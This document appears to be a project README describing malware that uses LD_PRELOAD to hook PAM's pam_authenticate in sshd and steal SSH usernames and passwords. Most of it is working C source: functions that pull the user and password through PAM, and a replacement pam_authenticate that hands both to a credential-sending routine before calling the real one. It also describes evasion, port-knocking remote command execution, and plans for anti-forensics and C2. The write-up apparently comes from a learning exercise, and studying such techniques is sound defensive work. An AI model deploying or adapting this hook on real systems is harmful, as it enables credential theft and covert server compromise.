 # LD_PRELOAD-Based SSH Credential Stealer Documentation

## Introduction
This document details our thought process, hypotheses, and steps taken to implement a malware using the `LD_PRELOAD` technique to extract SSH credentials (username/password). The project was conducted in an assumed breach scenario, initially with root privileges.

## Project Goals
The main objectives of this project were:
- To use `LD_PRELOAD` to hook into SSH authentication functions and extract credentials.
- To investigate and manipulate authentication processes, specifically targeting `pam_authenticate`.
- To introduce a port-knocking mechanism for remote command execution.
- To find a creative way to make a specific file unopenable.

## Thought of thoughts and Initial Exploration

### Overwriting Functions
Our first approach was to overwrite the `read()` function, as it is often used for input handling, but we quickly pivoted to a more direct method.

### Debugging and Exploration
To understand how authentication worked, we ran:
```bash
sudo /usr/sbin/sshd -D -d -e
```
This allowed us to inspect SSH behavior and pinpoint where credentials were processed.

### Investigating PAM Authentication
Given that SSH authentication uses PAM (Pluggable Authentication Module), we examined `pam_authenticate` and specifically:
```c
pamh->handlers.conf.authenticate;
```
We hypothesized that hooking into `pam_authenticate` would let us extract usernames and passwords directly.

### Testing LD_PRELOAD Hook
We created an `LD_PRELOAD` shared object to intercept function calls. Instead of using `printf`, we used `stderr` or `perror` to avoid detection (and because it was the only way to print tbh 😅🤫).

## Implementation

### Extracting Username
We implemented a function to retrieve the SSH username using `pam_get_item`:
```c
char *get_username(pam_handle_t *pamh) {
    char *username = NULL;
    if (pam_get_item(pamh, PAM_USER, (const void **)&username) == PAM_SUCCESS && username) {
//        fprintf(stderr, "USER =>>>>> %s\n", username);
    } else {
        perror("Failed to retrieve username");
    }
    return username;
}
```

### Extracting Password
For password retrieval, we hooked into `sshpam_passwd_conv`:
```c
char *get_password(pam_handle_t *pamh) {
    struct pam_conv *conv;
    if (pam_get_item(pamh, PAM_CONV, (const void **)&conv) == PAM_SUCCESS && conv) {
        const struct pam_message msg = {
            .msg_style = PAM_PROMPT_ECHO_OFF,
            .msg = "Password: "
        };
        const struct pam_message *msgp = &msg;
        struct pam_response *resp = NULL;
        int ret = conv->conv(1, &msgp, &resp, conv->appdata_ptr);
        if (ret == PAM_SUCCESS && resp && resp->resp) {
//            fprintf(stderr, "PASSWORD =>>>>>: %s\n", resp->resp);
            char *password = strdup(resp->resp);
            free(resp->resp);
            free(resp);
            return password;
        } else {
            fprintf(stderr, "Failed to retrieve password\n");
        }
    } else {
        fprintf(stderr, "Failed to retrieve password\n");
    }
    return NULL;
}
```

### Hooking `pam_authenticate`
We replaced the original `pam_authenticate` function to intercept credentials:
```c
typedef int (*pam_authenticate_t)(pam_handle_t *, int);

int pam_authenticate(pam_handle_t *pamh, int flags) {
    static pam_authenticate_t original_pam_authenticate = NULL;
    if (!original_pam_authenticate) {
        original_pam_authenticate = (pam_authenticate_t)dlsym(RTLD_NEXT, "pam_authenticate");
        if (!original_pam_authenticate) {
//            fprintf(stderr, "Error loading original pam_authenticate: %s\n", dlerror());
            exit(EXIT_FAILURE);
        }
    }
    char *username = get_username(pamh);
    char *password = get_password(pamh);
    send_credentials_client(username);
    send_credentials_client(password);
    return original_pam_authenticate(pamh, flags);
}
```

## Conclusion
This project successfully demonstrated how `LD_PRELOAD` can be used to intercept and extract SSH credentials by hooking into PAM authentication functions. Future work could focus on enhancing stealth techniques, implementing more advanced anti-forensic measures, and improving the C2 infrastructure.

The project was a great way to both exercise our `C language` skills and significantly increase our knowledge of how the `Linux` OS and it's libraries simultaneously works. 

